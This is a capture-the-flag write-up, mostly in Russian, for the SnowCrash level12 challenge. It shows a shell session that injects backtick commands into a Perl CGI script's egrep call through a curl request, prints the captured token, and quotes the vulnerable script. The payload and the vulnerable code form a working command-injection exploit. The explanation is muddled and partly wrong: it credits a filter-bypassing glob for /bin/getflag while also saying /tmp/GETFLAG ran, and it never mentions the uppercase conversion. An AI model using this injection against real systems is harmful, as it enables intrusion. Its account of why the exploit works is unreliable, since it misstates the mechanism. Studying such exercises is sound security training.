 level12@SnowCrash:~$ echo "getflag > /tmp/token" > /tmp/GETFLAG
level12@SnowCrash:~$ cat /tmp/GETFLAG
getflag > /tmp/token
level12@SnowCrash:~$ chmod a+x /tmp/GETFLAG
level12@SnowCrash:~$ curl 'localhost:4646?x=`/*/getflag`'
..level12@SnowCrash:~$ cat /tmp/token
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr

как это работает

#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

Функция t($xx, $nn) — Проверяет файл /tmp/xd
sub t {
  $nn = $_[1];   # Второй аргумент
  $xx = $_[0];   # Первый аргумент
  $xx =~ tr/a-z/A-Z/;  # Переводит x в верхний регистр
  $xx =~ s/\s.*//;     # Удаляет всё после первого пробела
x — это параметр из запроса.
Преобразует x в верхний регистр.

@output = `egrep "^$xx" /tmp/xd 2>&1`;
Запускает egrep "^$xx" /tmp/xd
egrep ищет строки, начинающиеся с x в файле /tmp/xd.
Если команда выдаст ошибку, она перенаправляется (2>&1).

Если egrep нашёл строку вида FLAG12:some_value, проверяет, есть ли y во второй части.
Если есть — возвращает 1.
Если нет — возвращает 0.

Разбор уязвимости
В коде есть опасная строка:
@output = `egrep "^$xx" /tmp/xd 2>&1`;

Что здесь не так?
$xx — это непроверенный пользовательский ввод (значение параметра x из запроса).
Этот ввод вставляется прямо в команду оболочки:

egrep "^$xx" /tmp/xd

Если передать спецсимволы оболочки, например, бектики (`...`), то они будут выполнены как команда.

Как именно сработала команда?
Ты отправил запрос:
curl 'localhost:4646?x=`/*/getflag`'

Как Perl его интерпретировал?
egrep "^`/*/getflag`" /tmp/xd

\/*/getflag`` → выполнится как команда оболочки.

Команда getflag запустилась с правами flag12 (из-за SUID на level12.pl).

Результат команды getflag вставился внутрь egrep.

Ошибки редиректнулись в 2>&1, но сам getflag выполнился.

Но как getflag записал результат в /tmp/token?

Твой хитрый ход:
Ты создал скрипт /tmp/GETFLAG:

echo "getflag > /tmp/token" > /tmp/GETFLAG
chmod a+x /tmp/GETFLAG
А затем передал **x=\/*/getflag`**, который выполняет команду /tmp/GETFLAG`.

Почему /*/getflag?
Ты использовал маску /*/getflag, потому что:
/bin/getflag — это реальный путь к команде
/*/getflag — это хитрость, которая подбирает путь к getflag, обходя фильтры.

Таким образом:
Перл запустил оболочку и выполнил команду /tmp/GETFLAG.
Скрипт /tmp/GETFLAG запустил getflag и записал токен в /tmp/token.

